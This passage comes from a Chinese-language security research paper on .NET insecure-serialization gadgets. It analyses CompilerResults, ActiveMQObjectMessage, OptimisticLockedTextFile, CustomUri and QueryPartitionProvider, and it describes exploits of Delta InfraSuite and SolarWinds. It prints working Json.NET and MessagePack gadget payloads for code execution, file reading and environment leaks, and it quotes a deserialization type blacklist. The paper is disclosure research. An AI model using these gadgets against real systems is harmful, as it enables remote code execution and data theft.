base(info, context) 
{ 
    if (info == null) 
    { 
        throw new ArgumentNullException("info"); 
    } 
    try 
    { 
        this.m_action = (SecurityAction)info.GetValue("Action",  
typeof(SecurityAction)); 
        this.m_permissionThatFailed =  
(string)info.GetValueNoThrow("FirstPermissionThatFailed", typeof(string)); 
        this.m_demanded = (string)info.GetValueNoThrow("Demanded",  
typeof(string)); 
        this.m_granted = (string)info.GetValueNoThrow("GrantedSet",  
typeof(string)); 
        this.m_refused = (string)info.GetValueNoThrow("RefusedSet",  
typeof(string)); 
        this.m_denied = (string)info.GetValueNoThrow("Denied", typeof(string)); 
        this.m_permitOnly = (string)info.GetValueNoThrow("PermitOnly",  
typeof(string)); 
        this.m_assemblyName = (AssemblyName)info.GetValueNoThrow("Assembly",  
typeof(AssemblyName)); 
        this.m_serializedMethodInfo = (byte[])info.GetValueNoThrow("Method",  
typeof(byte[])); // [1] 
        .. 
        // Removed for readability 
        ..
```

代码段 81 SecurityException - Serializable constructor

在 \[1\] 处，设置了 `m_serializedMethodInfo` 成员。如果攻击者能够调用 `get_Method` 成员，就可以实现远程代码执行。`SecurityException` 类的这种滥用在后面的“Combining Getter Gadgets with Insecure Serialization Gadgets”章节中有介绍。

##### 4.2.3 不安全序列化 – CompilerResults 本地 DLL 加载小工具

类型：序列化小工具。

效果：该小工具允许从任何位置加载本地 DLL。可以与其他小工具链接使用。

描述：通过对 `System.CodeDom.Compiler.CompilerResults.get_CompiledAssembly getter` 的调用可以滥用此小工具。已发现该小工具可在多个不同的序列化器中被利用，包括 Json.NET。

对象准备 - 反序列化： `System.CodeDom.Compiler.CompilerResults` 实现了一个公共构造函数，该构造函数定义了 `TempFileCollection` 类型的输入。

```plain
public CompilerResults(TempFileCollection tempFiles) 
{ 
    this.tempFiles = tempFiles; 
}
```

代码段 82 CompilerResults constructor

tempFiles 成员与我们无关，因此在反序列化过程中可以将其设置为 null。

从利用的角度来看，PathToAssembly 成员很重要

```plain
public string PathToAssembly 
{ 
    [PermissionSet(SecurityAction.LinkDemand, Name = "FullTrust")] 
    get 
    { 
        return this.pathToAssembly; 
    } 
    [PermissionSet(SecurityAction.LinkDemand, Name = "FullTrust")] 
    set 
    { 
        this.pathToAssembly = value; 
    } 
}
```

代码段 83 PathToAssembly setter

可以通过以下的 gadget 进行利用（以 Json.NET 为例）:

```plain
{ 
    "$type":"System.CodeDom.Compiler.CompilerResults, System.CodeDom,  
Version=6.0.0.0, Culture=neutral, PublicKeyToken=cc7b13ffcd2ddd51", 
    "tempFiles":null, 
    "PathToAssembly":"C:\\Users\\Public\\mixedassembly.dll" 
}
```

代码段 84 CompilerResults - .NET Framework serialization gadget

不安全的序列化：

在序列化期间，将调用 `get_CompiledAssembly getter`。

```plain
public Assembly CompiledAssembly 
{ 
    [SecurityPermission(SecurityAction.Assert, Flags =  
SecurityPermissionFlag.ControlEvidence)] 
    get 
    { 
        if (this.compiledAssembly == null && this.pathToAssembly != null) 
        {
            this.compiledAssembly = Assembly.Load(new AssemblyName 
            { 
                CodeBase = this.pathToAssembly 
            }, this.evidence); 
        } // [1] 
        return this.compiledAssembly; 
    } 
    [PermissionSet(SecurityAction.LinkDemand, Name = "FullTrust")] 
    set 
    { 
        this.compiledAssembly = value; 
    } 
}
```

代码段 85 CompiledAssembly getter - .NET Framework

在 \[1\] 处可以看到调用了 `Assembly.Load(AssemblyName)`。新的 `AssemblyName` 对象的 CodeBase 属性设置为攻击者控制的路径。因此，该调用将尝试从给定位置加载 DLL。由于从 .NET Framework 4 起默认阻止远程 DLL 加载，因此该小工具只能用于加载本地 DLL（相当于一个常见的 `AssemblyInstaller` 小工具）。但是，人们仍然可以将其与文件写入漏洞或甚至合法的上传功能链接起来，因为.NET 程序集加载方法在任何方式上都不验证文件名和扩展名。例如，可以通过提供的小工具上传一个名为“poc.png”的混合程序集并加载它。

#### 4.3 不安全的序列化 - 第三方库中的小工具

不安全的序列化小工具可能存在于第三方库中，或者存在于目标产品的代码库中（实际上，这可能是序列化小工具最好的来源之一）。本章介绍了三个不同库中的远程代码执行、任意文件读取和环境变量泄漏序列化小工具。

以下表格显示了这些小工具。

| **Library** | **Gadget(s) name** | **Effect** | **Brief description** |
| --- | --- | --- | --- |
| Apache NMS  <br>ActiveMQ | ActiveMQObjectMessage | RCE | RCE through internal  <br>BinaryFormatter  <br>deserialization. |
| Amazon  <br>AWSSDK.Core | OptimisticLockedTextFile | File Read | File content is being read  <br>during the deserialization.  <br>During the serialization, the  <br>file content is being  <br>presented to the attacker. |
| Castle Core | CustomUri | Environmental  <br>variable leak | Serialized object leaks  <br>environmental variable. |

##### 4.3.1 不安全的序列化 - Apache NMS ActiveMQObjectMessage 远程代码执行小工具

类型：序列化小工具。

根本原因：该小工具导致 `BinaryFormatter.Deserialize` 调用，攻击者完全控制输入。由于 `BinaryFormatter` 存在多个小工具，因此该小工具允许实现远程代码执行。

最新测试版本：2.1.0

描述：该小工具可以通过调用 `Apache.NMS.ActiveMQ.Commands.ActiveMQObjectMessage.get_Body` 获取器而被滥用。实际上，这是一个非常简单的序列化小工具，应该适用于大多数基于 setter 的序列化器。它经过 `Json.NET`、`JavaScriptSerializer` 和 `MessagePack` 序列化器的测试。在所有情况下，它都很容易在反序列化 - 序列化场景中导致远程代码执行。

对象准备 - 反序列化：

对于低于 2.1.0 版本的 `ActiveMQObjectMessage` 对象序列化小工具，准备工作非常简单。首先，它实现了一个无参数的构造函数。这样的构造函数可能受到每个基于 setter 的序列化器的支持。而且，攻击者只需要调用一个基类的单个 setter。它接受一个字节数组，其中应包含 `BinaryFormatter` 反序列化小工具。

```plain
public byte[] Content 
{ 
    get 
    { 
        return this.content; 
    } 
    set 
    { 
        this.content = value; 
    } 
}
```

代码段 86 ActiveMQObjectMessage - Content member

示例小工具如下所示：

```plain
{ 
    "$type":"Apache.NMS.ActiveMQ.Commands.ActiveMQObjectMessage,  
Apache.NMS.ActiveMQ, Version=2.0.1.0, Culture=neutral,  
PublicKeyToken=82756feee3957618", 
    "Content":"base64encoded-binaryformatter-gadget" 
}
```

代码段 87 ActiveMQObjectMessage 2.0.0 – Json.NET sample gadget

请注意，适用于版本 2.1.0 的小工具也适用于版本 2.0.0（必须将小工具中的版本从 2.1.0 修改为目标版本，例如 2.0.1.0）：

```plain
{ 
    "$type":"Apache.NMS.ActiveMQ.Commands.ActiveMQObjectMessage,  
Apache.NMS.ActiveMQ, Version=2.1.0.0, Culture=neutral,  
PublicKeyToken=82756feee3957618", 
    "Content":"base64-encoded-binaryformatter-gadget", 
    "Connection": 
    { 
        "connectionUri":"http://localhost", 
        "transport": 
        { 
            "$type":"Apache.NMS.ActiveMQ.Transport.Failover.FailoverTransport,  
Apache.NMS.ActiveMQ, Version=2.1.0.0, Culture=neutral,  
PublicKeyToken=82756feee3957618" 
        }, 
        "clientIdGenerator": 
        { 
            "$type":"Apache.NMS.ActiveMQ.Util.IdGenerator, Apache.NMS.ActiveMQ,  
Version=2.1.0.0, Culture=neutral, PublicKeyToken=82756feee3957618" 
        } 
    } 
}
```

代码段 88 ActiveMqObjectMessage 2.1.0 - Json.NET sample gadget

不安全的序列化：

在反序列化过程中，将调用 `ActiveMQObjectMessage.get_Body getter`。

```plain
public object Body 
{ 
    get 
    { 
        if (this.body == null) 
        { 
            if (base.Content == null) // [1] 
            { 
                return null; 
            } 
            Stream stream = new MemoryStream(base.Content, false); // [2] 
            if (base.Connection != null && base.Compressed) 
            { 
                stream                                                     =  
base.Connection.CompressionPolicy.CreateDecompressionStream(stream); 
            } 
            this.body = this.Formatter.Deserialize(stream); // [3] 
        } 
        return this.body; 
    } 
    set 
    { 
        this.body = value; 
    } 
}
```

代码段 89 ActiveMQObjectMessage - Body member

在\[1\]处，代码检查 Content 成员是否为 null。如果不是，代码继续执行。

在\[2\]处，使用 Content 成员实例化一个新的 MemoryStream。

在\[3\]处，调用 `this.Formatter.Deserialize` 方法，使用受攻击者控制的流。

对于版本不大于 2.0.1 的库，如果没有通过 setter 更改格式化程序，Formatter 成员将返回 `BinaryFormatter`。

```plain
public IFormatter Formatter 
{ 
    get 
    { 
        if (this.formatter == null) 
        { 
            this.formatter = new BinaryFormatter(); 
        } 
        return this.formatter; 
    } 
    set 
    { 
        this.formatter = value; 
    } 
}
```

代码段 90 ActiveMQObjectMessage - Formatter member

我已将此问题报告给 Apache，因为这个 `BinaryFormatter` 可能会在库的典型用法中被利用（库接收远程数据包，并使用 `BinaryFormatter` 反序列化有效载荷）。Apache 修复了这个漏洞（没有 CVE，也没有反馈），并在版本 2.1.0 中引入了用户可控的阻止/允许列表。它修改了 `get_Formatter getter`：

```plain
public IFormatter Formatter 
{ 
    get 
    { 
        if (this.formatter == null) 
        { 
            this.formatter = new BinaryFormatter(); 
            if (base.Connection.DeserializationPolicy != null) // [1] 
            { 
                this.formatter.Binder = new 
TrustedClassFilter(base.Connection.DeserializationPolicy, base.Destination); 
            } 
        } 
        return this.formatter; 
    } 
    set 
    { 
         this.formatter = value; 
    } 
} 
```

代码段 91 ActiveMQObjectMessage - Formatter member in version 2.1.0

可以看到，在\[1\]处，代码检查 `Connection.DeserializationPolicy` 是否为 null。如果不是，则设置指定的反序列化绑定器。

这个更改仍然允许将此类用作序列化小工具。然而，攻击者需要在小工具中指定有效的 Connection 成员。否则，将抛出异常。请参阅“对象准备 - 反序列化”部分，了解版本 2.1.0 和版本 < 2.1.0 的小工具之间的区别。

总之，`Apache.NMS.ActiveMQ.Commands.ActiveMQObjectMessage` 可以成功用作所有基于 setter 的序列化器的序列化小工具。它允许攻击者提供一个 `BinaryFormatter` 小工具，在序列化过程中对其进行反序列化。这样的行为导致远程代码执行。

##### 4.3.2 不安全的序列化 – Amazon AWSSDK 核心 OptimisticLockedTextFile 任意文件阅读小工具

类型：反序列化到序列化小工具。

最新测试版本：3.7.202.19

根本原因：`OptimisticLockedTextFile` 工具在反序列化过程中使用。文件内容是通过 getter 方法检索的，因此它在序列化期间。

描述：Amazon AWSSDK 核心库实现了一个 `Amazon.Runtime.Internal.Util.OptimisticLockedTextFile` 类，它的构造函数检索所选文件。但是，如果不进行序列化，文件内容不会返回给攻击者。这就是为什么这种小工具类型被归类为“反序列化到序列化小工具”的原因。恶意操作在反序列化（文件读取）期间执行，但攻击者无法利用它没有序列化（检索文件内容）。利用是通过单参数构造函数执行的，因此该小工具可能被滥用，例如 `Json.NET` 或 `MessagePack` 序列化器。

对象准备 – 反序列化：

`OptimisticLockedTextFile` 类实现一个构造函数，该构造函数接受字符串类型。据此，它可以与 `Json.NET` 或 `MessagePack` 等序列化器一起使用，因为他们能够调用这样的构造函数。

```plain
public OptimisticLockedTextFile(string filePath) 
{ 
    this.FilePath = filePath; 
    this.Read(); 
}
```

代码段 92 OptimisticLockedTextFile - 导致文件读取的构造函数

构造函数将 FilePath 成员设置为由攻击者控制的字符串，然后调用 Read 方法。

```plain
private void Read() 
{ 
    this.OriginalContents = ""; 
    if (File.Exists(this.FilePath)) // [1]
    { 
        try 
        { 
            this.OriginalContents = File.ReadAllText(this.FilePath); // [2] 
        } 
        catch (FileNotFoundException) 
        { 
        } 
        catch (DirectoryNotFoundException) 
        { 
        } 
    } 
    this.Lines                                                                 =  
OptimisticLockedTextFile.ReadLinesWithEndings(this.OriginalContents); // [3] 
}
```

代码段 93 OptimisticLockedTextFile - Read 方法

在 \[1\] 处，代码检查攻击者控制的文件路径是否存在。

如果存在，则在 \[2\] 处读取文件内容并将其存储在 `OriginalContents` 成员中。

在 \[3\] 处，Lines 成员设置为由 `ReadLinesWithEndings` 方法返回的值。该方法接受文件内容作为输入。

最后，来分析一下 `ReadLinesWithEndings`方法。

```plain
private static List<string> ReadLinesWithEndings(string str) 
{ 
    List<string> list = new List<string>(); 
    int length = str.Length; 
    int i = 0; 
    int num = 0; 
    while (i < length) 
    { 
        if (str[i] == '\r') 
        { 
            i++; 
            if (i < length && str[i] == '\n') 
            { 
                i++; 
            } 
            list.Add(str.Substring(num, i - num)); 
            num = i; 
        } 
        else if (str[i] == '\n') 
        { 
            i++; 
            list.Add(str.Substring(num, i - num)); 
            num = i; 
        } 
        else 
        {
            i++; 
        } 
    } 
    if (num < i) 
    { 
        list.Add(str.Substring(num, i - num)); 
    } 
    return list; 
}
```

代码段 94 OptimisticLockedTextFile - ReadLinesWithEndings 方法

可以看到，此函数返回一个字符串列表。该列表包含文件内容，但是根据换行符进行划分。

`OptimisticLockedTextFile` 小工具的示例：

```plain
{"$type":"Amazon.Runtime.Internal.Util.OptimisticLockedTextFile, AWSSDK.Core,  
Version=3.3.0.0, Culture=neutral,  
PublicKeyToken=885c28607f98e604","filePath":"C:\\Windows\\win.ini"}
```

代码段 95 OptimisticLockedTextFile gadget

不安全的序列化：

已经知道文件内容实际上存储在两个不同的成员中：`OriginalContents` 和 `Lines`。让我们先看看其中的一个：

```plain
private string OriginalContents { get; set; }
```

代码段 96 OptimisticLockedTextFile - OriginalContents member

可以注意到这个成员是私有的。这意味着在序列化过程中它不会被调用（例如，在 `Json.NET` 序列化器的默认配置中）。最后，我们可以验证 Line 成员。

```plain
public List<string> Lines { get; private set; }
```

代码段 97 OptimisticLockedTextFile - Lines member

结果表明，该成员及其 getter 都是公共的。因此，在序列化期间（如果应用程序将序列化对象发送回攻击者），将返回包含文件内容的字符串列表给攻击者。

示例序列化对象：

```plain
{ 
    "$type":"Amazon.Runtime.Internal.Util.OptimisticLockedTextFile, AWSSDK.Core", 
    "FilePath":"C:\\Windows\\win.ini", 
    "Lines": 
    { 
        "$type":"System.Collections.Generic.List`1[[System.String, mscorlib]],  
mscorlib", 
        "$values": 
        [ 
            "; for 16-bit app support\\r\\n","[fonts]\\r\\n", 
            "[extensions]\\r\\n", 
            "[mci extensions]\\r\\n",
            "[files]\\r\\n", 
            "[Mail]\\r\\n", 
            "MAPI=1\\r\\n" 
        ] 
    } 
}
```

代码段 98 OptimisticLockedTextFile - serialized object

##### 4.3.3 不安全的序列化 – Castle Core CustomUri 环境变量泄漏

类型：反序列化到序列化小工具。

根本原因：CustomUri 在反序列化期间分析 URI 字符串。它还扩大了环境存储在 URI 中的变量。扩展的路径存储在序列化对象中。

描述：Castle Core 库实现了 `Castle.Core.Resource.CustomUri` 类。它的构造函数创建路径（URI）。路径解析算法扩展了环境变量。在序列化时，带有扩展变量的路径将返回给攻击者。

对象准备 – 反序列化：

`CustomUri` 类实现单个公共构造函数，该构造函数接受字符串类型的参数。

```plain
public CustomUri(string resourceIdentifier) 
{ 
    if (resourceIdentifier == null) 
    { 
        throw new ArgumentNullException("resourceIdentifier"); 
    } 
    if (resourceIdentifier == string.Empty) 
    { 
        throw new ArgumentException("Empty resource identifier is not allowed", 
"resourceIdentifier"); 
    } 
    this.ParseIdentifier(resourceIdentifier); // [1] 
}
```

代码段 99 CustomUri constructor

在 \[1\] 处，它使用作为输入提供的攻击者控制的字符串调用 `ParseIdentifier`。

```plain
private void ParseIdentifier(string identifier) 
{ 
    int num = identifier.IndexOf(':'); 
    if (num == -1 && (identifier[0] != '\\' || identifier[1] != '\\') &&  
identifier[0] != '/') 
    { 
        throw new ArgumentException("Invalid Uri: no scheme delimiter found on " 
\+ identifier); 
    } 
    bool flag = true; 
    if (identifier[0] == '\\' && identifier[1] == '\\') 
    {
        this.isUnc = true; 
        this.isFile = true; 
        this.scheme = CustomUri.UriSchemeFile; 
        flag = false; 
    } 
    else if (identifier[num + 1] == '/' && identifier[num + 2] == '/') 
    { 
        this.scheme = identifier.Substring(0, num); 
        this.isFile = (this.scheme == CustomUri.UriSchemeFile); 
        this.isAssembly = (this.scheme == CustomUri.UriSchemeAssembly); 
        identifier = identifier.Substring(num +  
CustomUri.SchemeDelimiter.Length); 
    } 
    else 
    { 
        this.isFile = true; 
        this.scheme = CustomUri.UriSchemeFile; 
    } 
    StringBuilder stringBuilder = new StringBuilder(); 
    foreach (char c in identifier.ToCharArray()) 
    { 
        if (flag && (c == '\\' || c == '/')) 
        { 
            if (this.host == null && !this.IsFile) 
            { 
                this.host = stringBuilder.ToString(); 
                stringBuilder.Length = 0; 
            } 
            stringBuilder.Append('/'); 
        } 
        else 
        { 
            stringBuilder.Append(c); 
        } 
    } 
    this.path = Environment.ExpandEnvironmentVariables(stringBuilder.ToString()); 
// [1] 
}
```

代码段 100 ParseIdentifier 方法

在 \[1\] 处，正在设置路径成员。该值被设置为攻击者控制的路径，其中正在扩展环境变量。

可以提供以下示例小工具：

```plain
{ 
    "$type":"Castle.Core.Resource.CustomUri, Castle.Core, Version=5.0.0.0,  
Culture=neutral, PublicKeyToken=407dd0808d44fbdc", 
    "resourceIdentifier":"C:\\test\\%PATHEXT%" 
}
```

代码段 101 CustomUri gadget

不安全的序列化：

当对象被序列化时，将调用 `get_Path getter`。它使用扩展的环境变量。

```plain
public string Path 
{ 
    get 
    { 
        return this.path; 
    } 
}
```

代码段 102 CustomUri.Path member

示例序列化对象，其中扩展了 PATHEXT 变量：

```plain
{"$type":"Castle.Core.Resource.CustomUri,  
Castle.Core","IsUnc":false,"IsFile":true,"IsAssembly":false,"Scheme":"file","Host 
":null,"Path":"C:/test/.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC"}
```

代码段 103 公开环境变量的序列化对象

#### 4.4 不安全的序列化 – Azure.Core QueryPartitionProvider 反序列化小工具触发序列化

使用各种阻止列表和允许列表可能会很复杂，不同小工具的组合可能需要进行仔细准备。本章介绍了 `Microsoft Azure.Core` 库中的反序列化小工具，实际上通过 `Json.NET` 序列化程序导致了不受控制的序列化。这是另一种强大的手段，可以对抗强化的反序列化例程。如果所有已知的反序列化小工具都被阻止，我们仍需关注第三方库中的序列化小工具或者存在于产品代码库中的工具。

此小工具实现一个构造函数，并且此构造函数接受 `IDictionary<String、Object>` 类型。同样，它可以被滥用，例如 `Json.NET` 或 `MessagePack`。

更重要的是，我们可以使用它从一个序列化器（MessagePack）切换到另一个序列化器（Json.NET）。

```plain
... 
// Removed for readability 
... 
using Microsoft.Azure.Documents.Routing; 
using Newtonsoft.Json; // [1] 

namespace Microsoft.Azure.Cosmos.Query.Core.QueryPlan 
{ 
    internal sealed class QueryPartitionProvider : IDisposable 
    { 
        public QueryPartitionProvider(IDictionary<string, object>  
queryengineConfiguration) // [2] 
        { 
            if (queryengineConfiguration == null)
            { 
                throw new ArgumentNullException("queryengineConfiguration"); 
            } 
            if (queryengineConfiguration.Count == 0) 
            { 
                throw new ArgumentException("queryengineConfiguration cannot be  
empty!"); 
            } 
            this.disposed = false; 
            this.queryengineConfiguration =  
JsonConvert.SerializeObject(queryengineConfiguration); // [3] 
            this.serviceProvider = IntPtr.Zero; 
            this.serviceProviderStateLock = new object(); 
        } 
    ... 
    // Removed for readability 
    ...
```

代码段 104 QueryPartitionProvider - 执行序列化的反序列化小工具

在 \[1\] 处，`QueryPartitionProvider` 加载 `Newtonsoft.Json` 命名空间。

在 \[2\] 中，定义了唯一的构造函数。它接受 `IDictionary<String， Object>` 类型的对象作为输入。

在 \[3\] 中，提供的输入对象使用 `JsonConvert.SerializeObject` 方法进行序列化。

总而言之，攻击者可以：

-   将 `QueryPartitionProvider` 小工具传递给反序列化例程。
-   提供任何序列化小工具作为构造函数的输入。它将首先被反序列化目标序列化程序。
-   使用 `Json.NET` 序列化已反序列化的对象，并最终执行恶意操作行动。

以下示例性小工具在 Apache NMS 库中展示了一个带有序列化小工具的链 —— `ActiveMQObjectMessage`。

```plain
{"$type":"Microsoft.Azure.Cosmos.Query.Core.QueryPlan.QueryPartitionProvider,  
Microsoft.Azure.Cosmos.Client, Version=3.32.0.0, Culture=neutral,  
PublicKeyToken=31bf3856ad364e35","queryengineConfiguration":{"poc":{"$type":"Apac 
he.NMS.ActiveMQ.Commands.ActiveMQObjectMessage, Apache.NMS.ActiveMQ,  
Version=2.0.1.0, Culture=neutral,  
PublicKeyToken=82756feee3957618","Content":"base64-encoded-binaryformatter
gadget"}}}
```

代码段 105 QueryPartitionProvider - chaining deserialization with serialization in JSON.NET

#### 4.5 不安全的序列化 – Delta Electronics InfraSuite Device Master CVE-2023-1139 和 CVE-2023-1145

在前面的章节中提到，InfraSuite Device Master 产品：

-   反序列化每条消息（甚至是身份验证消息）。这意味着反序列化是在身份验证之前执行。
-   使用旧版本的 MessagePack 序列化器（低于 2.3.75）。经典 `ObjectDataProvider` 小工具不能与此版本的序列化程序一起使用（它会导致拒绝服务而非远程代码执行）。
-   反序列化对象，然后再次将其序列化回来。
-   此类通信在两个单独的服务中实现：设备网关（CVE-2023-1139）和 Device-DataCollection（CVE-2023-1145）。

首先，InfraSuite Device Master 需要 `InfraSuiteManager.GrpcService.Service.ServiceRequest` 类型。

```plain
.. 
// Removed for readability 
.. 
public ServiceRequest() 
{ 
} 

public string remoteIPAddress; 
public int i32ServerID; 
public uint u32SerialNumber; 
public int i32PayloadType; 
public int i32ConnectionIndex; 
public string token; 

[Dynamic] 
public dynamic payload; // [1] 

public StatusCode status; 
private volatile bool finished; 

[CompilerGenerated] 
private Action Finished;
```

代码段 106 ServiceRequest 类

在 \[1\] 中，定义了有效负载成员。它是一个动态成员。

在此产品中，MessagePack 的配置方式是动态对象将被反序列化替换为 `MessagePack.Formatters.TypelessFormatter.Deserialize` 格式化程序。它是最有弹性的 MessagePack 的危险格式化程序，它接受任意类型信息并尝试反序列化有效负载中提供的类型。

在前面的章节中，提到 `.NET Framework SettingsPropertyValue` 序列化小工具适用于 MessagePack。这是因为此序列化程序可以反序列化 `SettingsProperty` 类型，这是其中一个 getter 所必需的。据此，这个小工具可以放置在有效负载成员中。

现在，让我们验证应用程序将序列化的内容。序列化例程需要对象 `InfraSuiteManager.GrpcService.Service.ServiceResponse` 类型。此类的片段：

```plain
.. 
// Removed for readability 
... 

public int i32ServerID; 
public uint u32SerialNumber; 
public int i32PayloadType; 
public int i32ConnectionIndex; 
public string token; 

[Dynamic] 
public dynamic payload; // [1] 

public StatusCode status; 
public Exception exception; 

public ServiceResponse(ServiceRequest request) // [2] 
{ 
    this.i32ServerID = request.i32ServerID; 
    this.u32SerialNumber = request.u32SerialNumber; 
    this.i32PayloadType = request.i32PayloadType; 
    this.i32ConnectionIndex = request.i32ConnectionIndex; 
    this.token = request.token; 
    this.payload = request.payload; // [3] 
}
```

在 \[1\] 中，它还实现了一个动态有效负载成员。

在 \[2\] 中，它定义了一个构造函数，该构造函数接受 `ServiceRequest` 对象作为输入。

在 \[3\] 处，它从请求中检索有效负载，并将 `ServiceResponse.payload` 设置为相同的值。

据此，利用场景如下所示：

-   攻击者发送一条包含在 `ServiceRequest.payload` 成员中的 `SettingsPropertyValue` 序列化小工具的恶意消息。
-   应用程序对请求进行反序列化。
-   应用程序创建一个响应。`ServiceResponse.payload` 成员与攻击者 payload 中反序列化的对象相同。
-   应用程序对 `ServiceResponse` 进行序列化。触发了 `SettingsPropertyValue` 小工具，实现了远程代码执行。

在 CVE-2023-1139 中使用的示例小工具，其中 `SerializedValue` 成员中包含的 `BinaryFormatter` 小工具已经移除，以提高可读性。

```plain
\x00\x00\x00\x12\xee\x88\xabi32ServerID\x00\xafu32SerialNumber\x00\xaei32PayloadType\x10 
\xb2i32ConnectionIndex\x00\xa5token\xa4test\xa7payload\xc8\x12\x82d\xd9uSystem.Configura 
tion.SettingsPropertyValue, System, Version=4.0.0.0, Culture=neutral,  
PublicKeyToken=b77a5c561934e089\x85\xa8Property\x81\xa4Name\xa4test\xacDeserialized\xc2 
\xb1UsingDefaultValue\xc2\xafSerializedValue\xc5\x08\xd7\x00\x01\x00\x00\x00\xff\xff\xff\xff\ 
x01\REST-OF-BINARYFORMATTER-DESERIALIZATION
GADGET\x00\n\x0b\xa6status\x00\xa8finished\xc2
```

代码段 107 SettingsPropertyValue gadget in Delta Electronics InfraSuite Device Manager

以下屏幕截图显示了通过序列化小工具成功利用的方法。它表明：

-   已达到 `BinaryFormatter.Deserialize（Stream）`方法。
-   它是通过一个 `MessagePack.MessagePackSerializer.Serialize<InfraSuiteManager.GrpcService.Service.Servic eResponse>`调用。



图 8 成功利用 Delta Electronics InfraSuite Device Master 中的不安全序列化

总的来说，在 `Delta Electronics InfraSuite Device Master` 中成功地利用了不安全的序列化，使用了 `SettingsPropertyValue .NET Framework` 小工具，它有助于克服目标序列化器版本中已知小工具的不足。

这个问题已经得到修复，我成功地绕过了补丁，并创建了另一个小工具链来利用这个产品。更多的信息将在后续章节中提供。

#### 4.5 不安全的序列化 – SolarWinds Platform CVE-2022-47504

在前面的章节中，我详细讨论了多个 SolarWinds Platform 反序列化漏洞。我还展示了一个用于保护 RabbitMQ 反序列化的黑名单例程，并显示了基于内部 SolarWinds 小工具的几个绕过。

事实证明，这个黑名单也可以通过不安全的序列化被滥用。为此，可以使用两种不同的序列化小工具：

-   内部 `SolarWinds.Database.Setup.Internals.SqlFileScript` 任意文件读取小工具。
-   允许检索数据库连接字符串的内部 SolarWinds 小工具。
-   已描述 `Amazon AWSSDK Core OptimisticLockedTextFile` 任意文件读取小工具。

由于 Amazon 小工具已经被描述过，我将专注于 `SolarWinds SqlFileScript` 类。

`SolarWinds.MessageBus.RabbitMQ.EasyNetQSerializer`类实现了两个主要方法：MessageToBytes（序列化方法）和 BytesToMessage（反序列化方法）。

```plain
public byte[] MessageToBytes(Type messageType, object message) // [1] 
{ 
    string text = JsonConvert.SerializeObject(message, this.serializerSettings);  
// [2] 
    EasyNetQSerializer._log.TraceFormat("Encoding msg to json: {0}", new object[] 
    { 
        text 
    }); 
    return Encoding.UTF8.GetBytes(text); 
} 

public object BytesToMessage(Type messageType, byte[] bytes) // [3] 
{ 
    string @string = Encoding.UTF8.GetString(bytes); 
    EasyNetQSerializer._log.TraceFormat("Decoding msg to type {0}: {1}", new 
object[] 
    { 
        messageType.FullName, 
        @string 
    }); 
    object result; 
    try 
    { 
        result = JsonConvert.DeserializeObject(@string, messageType,  
this.serializerSettings); // [4] 
    } 
    catch (Exception ex) when (!(ex is SecurityException)) 
    { 
        EasyNetQSerializer._log.Error("Unexpected failure when deserializing  
message:\n" + @string, ex); 
        throw; 
    } 
    return result; 
}
```

代码段 108 SolarWinds - EasyNetQSerializer

在 \[1\] 中，定义了序列化方法。

在 \[2\] 中，使用 `JsonConvert.SerializeObject` 方法执行序列化。

在 \[3\] 中，定义了反序列化方法。

在 \[4\] 中，使用 `JsonConver.DeserializeObject` 方法执行反序列化。

还可以看到，为 `Json.NET` 序列化程序定义了一些自定义设置。

```plain
private readonly JsonSerializerSettings serializerSettings = new 
JsonSerializerSettings 
{ 
    TypeNameHandling = TypeNameHandling.Auto, 
    Converters = new JsonConverter[] 
    { 
        new VersionConverter() 
    }, 
    ContractResolver = new BlacklistContractResolverWrapper() 
};
```

代码段 109 SolarWinds - EasyNetQSerializer JSON.NET settings

可以注意到：

-   `TypeNameHandling` 设置为 `Auto`，这使得 `Json.NET` 反序列化有潜在的风险。
-   黑名单通过 `BlacklistContractResolverWrapper` 实现。

此黑名单在 `.NET Framework` 反序列化小工具方面非常精确（尽管有一个 SolarWinds 反序列化一章中描述的错误）。

```plain
private static readonly ISet<string> BlackListSet = new 
HashSet<string>(StringComparer.OrdinalIgnoreCase) 
{ 
    "System.Diagnostics.Process", 
    "System.Diagnostics.ProcessStartInfo", 
    "System.Data.Services.Internal.ExpandedWrapper", 
    "System.Workflow.ComponentModel.AppSettings", 
    "Microsoft.PowerShell.Editor", 
    "System.Windows.Forms.AxHost.State", 
    "System.Security.Claims.ClaimsIdentity", 
    "System.Security.Claims.ClaimsPrincipal", 
    "System.Runtime.Remoting.ObjRef", 
    "System.Drawing.Design.ToolboxItemContainer", 
    "System.DelegateSerializationHolder", 
    "System.DelegateSerializationHolder+DelegateEntry", 
    "System.Activities.Presentation.WorkflowDesigner", 
    "System.Windows.ResourceDictionary", 
    "System.Windows.Data.ObjectDataProvider", 
    "System.Windows.Forms.BindingSource", 
"Microsoft.Exchange.Management.SystemManager.WinForms.ExchangeSettingsProvider", 
    "System.Management.Automation.PSObject", 
    "System.Configuration.Install.AssemblyInstaller",
    "System.Security.Principal.WindowsIdentity", 
    "System.Workflow.ComponentModel.Serialization.ActivitySurrogateSelector", 
"System.Workflow.ComponentModel.Serialization.ActivitySurrogateSelector+ObjectSur 
rogate+ObjectSerializedRef", 
    "System.Web.Security.RolePrincipal", 
